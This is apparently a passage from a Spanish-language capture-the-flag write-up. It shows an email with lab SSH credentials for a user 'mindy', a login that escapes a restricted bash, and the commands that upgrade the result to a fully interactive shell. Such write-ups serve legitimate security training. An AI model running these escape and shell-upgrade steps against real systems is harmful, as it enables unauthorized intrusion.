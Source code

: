 ```
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```
## Intrusión

Nos conectamos por `SSH` y `escapamos` de la `restricted bash`

```
# ssh mindy@10.129.188.225 bash   
mindy@10.129.188.225's password: 
whoami
mindy
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya estamos en una `TTY` completamente `interactiva`
